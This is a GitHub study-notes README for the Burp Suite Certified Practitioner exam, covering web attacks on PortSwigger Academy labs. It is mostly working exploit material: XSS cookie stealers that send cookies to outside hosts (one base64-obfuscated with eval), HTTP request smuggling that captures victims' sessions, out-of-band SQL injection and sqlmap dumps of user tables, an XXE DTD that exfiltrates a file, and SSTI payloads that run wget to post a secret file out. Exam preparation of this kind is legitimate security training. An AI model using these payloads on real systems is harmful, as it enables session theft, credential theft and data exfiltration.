








# Burp-Suite-Certified-Practitioner-Exam-Study
My personal study notes on the PortSwigger Academy Burp Suite Certified Practitioner (BSCP) Exam topics.  
Maybe we can the acronym BSCP, like OSCP?  

[Cross Site Scripting](#cross-site-scripting)  
[Host Header Poison - forgot-password](#host-header-poison---forgot-password)  
[HTTP Request Smuggling](#http-request-smuggling)  
[Privilege Escalation JSON RoleId](#privesc-json-roleid)  
[SQLi Data Exfiltration](#sql-injection-data-exfiltration)  
[XML entities & Injections](#xxe-injection)  

## Cross Site Scripting

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)  

### Cookie Stealers

### Reflected XSS in Search with WAF
>Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://Collaborator.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 formated strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  

  

>Hosting the **IFRAME** with eval() and fetch() payload on web exploit server, respectively base64 encoded and URL encoded.  

```html
<iframe src="https://TARGET.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```


### Reflected XSS in Search with blocked Tags
>Reflected XSS into HTML context with most tags and attributes blocked Bypass WAF
<sup>Body and event **'onresize'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
<sup>Body and event **'onpopstate'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```
[onpopstate event (XSS)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

[Methodology to identify allowed tags and events - PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

#### URL and Base64 online encoders and decoders  
[URL Decode and Encode](https://www.urldecoder.org/)  
[BASE64 Decode and Encode](https://www.base64encode.org/)    
  
### Stored XSS

#### Blog post comment section
```html

```  

#### Product and Store lookup
```html
?productId=1&storeId="></select>
```  

#### Stored XSS Blog post
```JavaScript
<script>
document.write('');
</script>
```  

#### Fetch API Cookie Stealer in blog comment
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```  

## Host Header Poison - forgot-password

### Authentication

### Spoof IP Address
>Identify that the alternate HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.  
  
<sub>Change the username parameter to carlos and send the request.</sub>
```html
X-Forwarded-Host: EXPLOIT-SERVER-ID.exploit-server.net
X-Host: EXPLOIT-SERVER-ID.exploit-server.net
X-Forwarded-Server: EXPLOIT-SERVER-ID.exploit-server.net
```
<sup>Check the exploit server log to obtain the reset link to the victim username.</sup>
  
  

[PortSwigger Lab: Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)  

## HTTP Request Smuggling

>Architecture with front-end and back-end server, and front-end or backend does not support chunked encoding(HEX) or content-length(Decimal).  Bypass security controls to retrieve the victim's request and use the victim user's cookies to access their account.
  
<sub>Manually fixing the length fields in request smuggling attacks, requires each chunk size in bytes expressed in **hexadecimal**, and _ _Content-Length_ _ specifies the length of the message body in **bytes**. Chunk consists are followed by a **newline**, followed by the chunk contents. The message is terminated with a chunk of size zero.</sub>   

### Content-Length Capture victim requests

>Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to 850, then smuggle it to the back-end server.

```html
POST / HTTP/1.1
Host: 0af8006004fb07f5c46a3c4600b20065.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=rmK9dkBeR1V3lg2bCgjfOkyBxImZMb6P

csrf=nVFjkw2QdI4G6hDY9nW39x0KOtFebyAd&postId=8&name=c&email=c%40c.c&website=&comment=c
```
  
  

>View the blog **post** to see if there's a comment containing a user's request. Note that once the victim user browses the target website, then only will the attack be successful. Copy the user's Cookie header from the blog post comment, and use the cookie to access victim's account.
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  

### User-Agent Cookie Stealer

>Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value in smuggled request.  

<sup>Basic Cross Site Scripting Payload</sup>  

```JavaScript
 "/><script>alert(1)</script>
```

<sub>COOKIE STEALER Payload</sub>  

```JavaScript
a"/><script>document.location='http://Collaborator.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```  

>Smuggle this XSS request to the back-end server, so that it exploits the next visitor.  

```html
POST / HTTP/1.1
Host: 0acc008e03af84c3c0274fe0004e00d4.web-security-academy.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://j0kk3reuzdhg8gslbbcrqwdtnktbh15q.oastify.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```  

  

>Check the PortSwigger Collaborator Request received from victim browsing target.  
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)  

>If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**.  

## PrivEsc JSON RoleId

>Access control to the admin interface is based on user roles, and this can lead to IDOR or accessc ontrol security vulnerability.  

<sub>Capture current logged in user email submission request and send to Intruder, then add "roleid":§99§ into the JSON body of the request, and fuzz the possible roleid for administrator access role.</sub>  

```html
POST /my-account/change-email HTTP/1.1
Host: 0a25007604813b07c2066cf20023004d.web-security-academy.net
Cookie: session=vXAA9EM1hzQuJwHftcLHKxyZKtSf2xCW
Content-Length: 48
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

{
 "email":"newemail@wiener.peter",
 "roleid": 2
}
```  

  

>Attack identify the possible role ID of administrator access role and then send this request with updated roleId to privile escalate the current logged in user to role of administator of target.  

  

[PortSwigger Lab: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)  


## SQL Injection Data Exfiltration

>Error based or Blind SQL injection vulnerabilities, in application used to perform an SQL query to extract data or login credentials from database for the administrator. SQLMAP is used to fast track the exploit and retrieve the sensitive information.  

<sub>Adding a double or single quote to web parameters and evaluate the error message response, indicate possible SQL injection point.</sub>  

[SQL Injection cheat sheet examples](https://portswigger.net/web-security/sql-injection/cheat-sheet)  

  

<sup>Out of band data exfiltration SQL query, tracking cookie Example:</sup>  

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```  

<sup>Using SQLMAP to enumerate tracking cookie</sup>

```bash
sqlmap -v -r sqli-blind.txt --batch --random-agent --level=3 --risk=3 -p "TrackingId"
```

[PortSwigger Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)  

### SQLMAP 

>Sample SQLMAP commands to determine what SQL injection vulnerability exist and retrieving different types of information from backend database.  

<sub>SQLMAP determine the vulnerability, and perform initial enumeration.</sub>  

```bash
sqlmap -v -u 'https://TARGET.web.net/filter?category=*' -p "category" --batch --cookie="session=xnxxji87qhGxOdoGKKW1ack4pZxYJlTt" --random-agent --level=3 --risk=3
```  

<sub>SQLMAP determine the database DBMS.</sub>  

```bash
sqlmap -v -u 'https://TARGET.web.net/filter?category=*' -p "category" --batch --cookie="session=xnxxji87qhGxOdoGKKW1ack4pZxYJlTt" --random-agent --level=3 --risk=3 --dbms=PostgreSQL -dbs
```  

<sub>SQLMAP determine Database, Tables, dump, data Exfiltration.</sub>  

```bash
sqlmap -v -u 'https://TARGET.web.net/filter?category=*' -p "category" --batch --cookie="session=xnxxji87qhGxOdoGKKW1ack4pZxYJlTt" --random-agent --level=3 --risk=3 --dbms=PostgreSQL -D public --tables

sqlmap -v -u 'https://TARGET.web-security-academy.net/filter?category=*' -p "category" --batch --cookie="session=xnxxji87qhGxOdoGKKW1ack4pZxYJlTt" --random-agent --dbms=PostgreSQL -D public -T users --dump --level=3 --risk=3

```  


<sub>Alternative SQLMAP if finding a blind boolean based vulnerability, and to speed up process the following command perform an error based technique.</sub>  

```bash
sqlmap -v -u 'https://TARGET.web.net/filter?category=*' -p 'category' --batch --flush-session --dbms postgresql --technique E --level=5  
```

## XXE Injection

>File upload or user import function on web target use XML file format. This can be vulnerable to XML external entity (XXE) injection.

<sub>Idnetify XXE in not so obvious parameters or requests by adding the below and URL encode thr **&** symbol.</sub>

```xml
%26entity;
```  

>On the exploit server host a exploit file with DTD extension, containing the following payload.  

```xml
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.net/?x=%file;'>">
%eval;
%exfil;
```  
  
  

>Modify the file upload XML body of the request before sending to the target server.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>Carl Toyota</username>
        <email>carl@hacked.net</email>
    </user>    
</users>

```

  

>SQL injection with filter bypass via XML encoding may allow extract of sensitive data.  

<sub>Use Burp extension hackvector to obfuscate the payload.</sub>

```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```


[PortSwigger Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)  

<sup> XML Section incomplete </sup>  


## SSRF - Server Side Request Forgery

>SSRF attack cause the server to make a connection to internal services within the organization, and force the server to connect to arbitrary external systems, potentially leaking sensitive data.  

<sub>SSRF exploitation examples</sub>

```html
/product/nextProduct?currentProductId=6&path=http://evil-user.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  


```

[PortSwigger Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://localhost:6566/"> ]>  

```  

<sup> SSRF Section incomplete </sup>  


## SSTI - Server Side Template Injection

>Use the web framework native template syntax to inject a malicious payload into a **{{template}}**, which is then executed server-side.  

<sub>SSTI exploit samples</sub>

```html
blog-post-author-display=user.name}}{{7*7}} 

${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
${foobar}
${{<%[%'"}}%\.




```

```python

{{os.system('wget http://colab.net --post-file=/home/carlos/secret')
```  

```html
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('wget%20http://colab.net%20--post-file=/home/carlos/secret')
```

[PortSwigger Lab: Basic server-side template injection data exfiltrate](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)  

<sup> SSTI Section incomplete </sup>  
